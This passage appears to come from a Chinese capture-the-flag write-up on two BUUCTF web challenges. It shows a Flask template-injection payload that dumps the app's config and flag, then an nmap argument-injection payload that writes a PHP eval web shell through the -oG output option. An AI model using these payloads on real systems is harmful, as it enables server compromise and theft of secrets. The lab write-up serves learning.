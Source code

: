 ```
/shrine/{{url_for.__globals__['current_app'].config}}
```

得到flag：

```
http://151277ce-29ba-4f33-bbea-d026f8d8274d.node4.buuoj.cn:81/shrine/{{url_for.__globals__['current_app'].config}}
```

或

```
http://cb19e6f9-d466-4a48-b26b-c940a528439e.node4.buuoj.cn:81/shrine/{{url_for.__globals__['current_app'].config['FLAG']}}
```

![image-20231213204758190](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231213204758190.png)



## [网鼎杯 2020 朱雀组]Nmap

###### nmap写入webshell

首先输入127.0.0.1正常回显

![image-20231213205443383](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231213205443383.png)

![image-20231213205510110](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231213205510110.png)

nmap 命令将扫描结果保存在文件里面：

例如：将nmap 127.0.0.1的结果保存在test.txt里面

```
nmap 127.0.0.1 -oN test.txt
```

**nmap其他写文件命令：**

-oN (标准输出)

-oX (XML输出)

-oS (ScRipT KIdd|3 oUTpuT)

-oG (Grep输出)

-[oA](https://so.csdn.net/so/search?q=oA&spm=1001.2101.3001.7020) (输出至所有格式)

这样我们就能写shell

直接放入Payload:

```shell
' <?php @eval($_POST["hack"]);?> -oG hack.php '
```

应该是做了什么限制，尝试修改文件名后缀为phtml：
